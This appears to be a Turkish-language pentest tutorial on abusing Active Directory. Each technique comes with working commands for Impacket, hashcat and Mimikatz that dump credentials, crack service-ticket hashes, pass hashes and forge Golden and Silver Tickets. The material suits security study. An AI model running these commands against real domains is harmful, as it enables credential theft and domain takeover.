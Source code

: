 **Windows Privilege Escalation: Active Directory Abuse (Active Directory’nin Kötüye Kullanılması)**

Active Directory (AD), büyük organizasyonların kullanıcı ve kaynak yönetimi için kullandığı bir dizin hizmetidir. Yanlış yapılandırmalar, zayıf şifreleme yöntemleri ve güvenlik açıkları, saldırganların AD ortamında ayrıcalıklarını yükseltmesine olanak tanır. Aşağıda, yaygın Active Directory saldırıları ve privilege escalation yöntemleri detaylı bir şekilde açıklanmıştır:

---

### **6.1. Kerberoasting**

Kerberoasting, Active Directory ortamında kullanıcıların servis hesaplarının şifre hash'lerini Kerberos protokolü üzerinden alarak brute-force veya offline saldırılarla çözmeyi hedefler.

#### **Nasıl Çalışır?**
1. AD'de, hizmet hesapları genellikle SPN (Service Principal Name) ile ilişkilidir.
2. SPN'lere bağlı olan TGS (Ticket Granting Service) biletleri, saldırgan tarafından elde edilebilir ve hash'leri kırılarak şifreler elde edilebilir.

#### **Tespit**
- Kullanılabilir SPN'leri listelemek için:
  ```cmd
  setspn -T domain.com -Q */*
  ```

#### **Kötüye Kullanma**
1. **Impacket** kullanarak TGS hash'lerini alın:
   ```cmd
   GetUserSPNs.py domain/user -outputfile tgs_hashes.txt
   ```
2. **hashcat** ile hash'leri brute-force yapın:
   ```bash
   hashcat -m 13100 tgs_hashes.txt wordlist.txt
   ```

---

### **6.2. ASREPRoasting**

ASREPRoasting, Kerberos'un AS-REP isteğinden faydalanır. Kerberos preauthentication özelliği devre dışı bırakılmış kullanıcılar hedef alınır.

#### **Nasıl Çalışır?**
1. Preauthentication devre dışı ise, saldırgan AS-REP yanıtını alarak kullanıcı hash'ini kırabilir.

#### **Tespit**
- Preauthentication devre dışı olan kullanıcıları bulmak için:
  ```powershell
  Get-ADUser -Filter * -Properties DoesNotRequirePreAuth | Where-Object { $_.DoesNotRequirePreAuth -eq $true }
  ```

#### **Kötüye Kullanma**
1. **Impacket** kullanarak AS-REP yanıtını alın:
   ```cmd
   GetNPUsers.py -dc-ip [DC_IP] domain.com/username
   ```
2. Elde edilen hash'leri kırın:
   ```bash
   hashcat -m 18200 hash.txt wordlist.txt
   ```

---

### **6.3. Abusing Group Policy Objects (GPO) Permissions**

GPO'lar, Active Directory'deki kullanıcı ve bilgisayarların yapılandırılmasını sağlar. Zayıf izinlere sahip GPO'lar, kötü niyetli yapılandırmalar için kullanılabilir.

#### **Tespit**
- GPO izinlerini kontrol etmek için:
  ```powershell
  Get-GPPermissions -All | Where-Object { $_.Permission -match "Write" }
  ```

#### **Kötüye Kullanma**
1. Yazılabilir bir GPO bulun.
2. GPO içine zararlı bir script ekleyin.
3. GPO uygulandığında script çalıştırılır ve SYSTEM yetkisi kazanılır.

---

### **6.4. Pass-the-Hash (PtH) Saldırıları**

Kullanıcı parolasını bilmeden NTLM hash'i kullanarak kimlik doğrulama yapılmasını sağlar.

#### **Nasıl Çalışır?**
- Elde edilen NTLM hash'leri, hedef makinelere kimlik doğrulama için kullanılabilir.

#### **Tespit**
- Hedef makinelerde açık portları ve hizmetleri kontrol edin.
  ```cmd
  nmap -p445 [target-ip]
  ```

#### **Kötüye Kullanma**
1. **Mimikatz** veya benzeri araçlarla hash'i alın:
   ```cmd
   sekurlsa::logonpasswords
   ```
2. Pass-the-Hash için:
   ```cmd
   psexec.py domain/user@target -hashes :[NTLM_hash]
   ```

---

### **6.5. Pass-the-Ticket (PtT) Saldırıları**

Kerberos biletlerinin yeniden kullanılmasıyla yapılan bir saldırıdır. Kullanıcı şifresine ihtiyaç duyulmadan TGT (Ticket Granting Ticket) ile kimlik doğrulama yapılır.

#### **Tespit**
- Geçerli Kerberos biletlerini kontrol etmek için:
  ```cmd
  klist
  ```

#### **Kötüye Kullanma**
1. **Mimikatz** ile TGT alın:
   ```cmd
   kerberos::list /export
   ```
2. TGT'yi başka bir oturumda yükleyerek kullanın:
   ```cmd
   kerberos::ptt ticket.kirbi
   ```

---

### **6.6. LDAP Enumeration ve Zayıf ACL’lerin Kullanılması**

LDAP (Lightweight Directory Access Protocol), AD'deki kullanıcılar, gruplar ve izinler hakkında bilgi almak için kullanılabilir.

#### **Tespit**
- LDAP ile domain bilgilerini enumerate etmek için:
   ```cmd
   ldapsearch -H ldap://[DC_IP] -x -b "dc=domain,dc=com"
   ```

#### **Kötüye Kullanma**
1. Zayıf ACL'lere sahip kullanıcıları veya grupları bulun.
2. Bu izinleri kullanarak kullanıcı gruplarını manipüle edin veya yeni kullanıcılar ekleyin.

---

### **6.7. Golden Ticket Saldırısı**

Golden Ticket saldırısı, Kerberos TGT'lerinin sahte bir Kerberos Key Distribution Center (KRBTGT) kullanılarak oluşturulmasıdır. Bu, bir saldırganın domain controller üzerinde kalıcı erişim elde etmesine olanak tanır.

#### **Kötüye Kullanma**
1. **Mimikatz** ile KRBTGT hash alın:
   ```cmd
   lsadump::dcsync /domain:domain.com /user:krbtgt
   ```
2. Golden Ticket oluşturun:
   ```cmd
   kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21... /krbtgt:[hash] /id:500
   ```

---

### **6.8. Silver Ticket Saldırısı**

Silver Ticket saldırısında, yalnızca belirli bir hizmet için TGS oluşturulur. Bu, daha az fark edilir ve hedefli saldırılarda kullanılır.

#### **Kötüye Kullanma**
1. TGS hash'ini alın.
2. Silver Ticket oluşturun ve kullanın:
   ```cmd
   kerberos::silver /service:cifs /target:server.domain.com /user:Administrator /rc4:[hash]
   ```

---

### **6.9. AdminSDHolder Abuse**

Active Directory'deki AdminSDHolder nesnesi, kritik gruplar ve kullanıcılar için izinleri belirler. Yanlış yapılandırıldığında, saldırganlar kendilerini Domain Admins grubuna ekleyebilir.

#### **Kötüye Kullanma**
1. AdminSDHolder izinlerini kontrol edin.
2. Kullanıcı hesabınızı AdminSDHolder'a ekleyin.

---

### **6.10. Tools for Active Directory Abuse**

- **BloodHound:** AD ilişkilerini ve zayıflıkları görselleştirmek için.
- **Impacket:** Kerberos saldırıları için çeşitli araçlar içerir.
- **PowerView:** Active Directory enumeration ve saldırıları için PowerShell modülü.
- **Mimikatz:** Kerberos biletleri ve hash çıkarımı için.

---
